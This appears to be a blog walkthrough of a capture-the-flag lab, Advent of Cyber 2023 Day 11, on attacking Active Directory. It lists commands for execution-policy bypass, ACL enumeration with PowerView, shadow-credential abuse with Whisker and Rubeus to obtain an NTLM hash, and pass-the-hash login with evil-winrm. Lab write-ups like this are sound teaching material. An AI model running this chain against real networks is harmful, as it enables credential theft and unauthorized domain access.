 # Jingle Bells, Shadow Spells | Advent of Cyber 2023 | Day 11

## TL;DR of Day 11

We are going to learn about the Active Directory today, in a nutshell, it is domain which holds usernames,passwords and groups of users for windows. It is used for bussiness mostly. But as a general rule, it also has its own limitations and exploitation. Let's explore one of them.


## walkthrough

Start the machine and access it using the split screen or RDP.

### Q1: What is the hash of the vulnerable user?

Start the powershell and cd into the Desktop folder. Then we need to enable scripting in the powershell with `powershell -ep bypass`. Run the script `PowerView.ps1` to load all the required functions.

All three commands should look something like this:
```ps
cd C:\Users\hr\Desktop
powershell -ep bypass
. .\PowerView.ps1
```

Now run the `Find-InterestingDomainAcl -ResolveGuids` to check the users list and their rights to the system. This will list for all users, we need only for our current user which is `hr`. We can do that with the command `Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" }`. Look at the ActiveDirectoryRights row. It includes GenericWrite access which basically allows us to exploit the certifaction system.


Before we go any further, look closly at the ObjectDN row and make sure to note the first username. We will call it USERNAME from onwards here. 

![Powershell Output](../images/day11/0.png)

Now we can use `Whisker` and `Rubeus` to further exploit this. These are utilities that are provided in the machine itself and you can learn more about them in the description of the day.

Let's first get the certificate using Whisker. Don't forget to change the USERNAME to the actual username.

```ps
.\Whisker.exe add /target:USERNAME
```

You should have output as per below.

![Powershell Output](../images/day11/1.png)

Copy the Rubeus code prompted at the end and add .\ before it to execute the same. You should get the NTLM hash at the end of the output. I am adding screenshot of the end of the output.

![](../images/day11/2.png)

That hash is the answer of our first question.


### Q2: What is the content of flag.txt on the Administrator Desktop?

Now since we have the NTLM hash, we can loging using evil-winrm. If you are using kali or attackbox, it is already installed. If you are setting up your own system then it is very tricky to set it up. Rather easy solution is to use docker image for this. I used following command to gain shell with username and NTLM hash using evil-winrm. Don't forget to add values for the IP, USERNAME and NTLMHASH.

```cmd
docker run --rm -ti --name evil-winrm  oscarakaelvis/evil-winrm -i IP -u USERNAME -H NTLMHASH
```

That should give you the powershell prompt. Now go to the `C:\Users\Administrator\Desktop` and check the files there. You should have your flag there.



That should be it for the day. I will see you tommorow with some new information to be learned.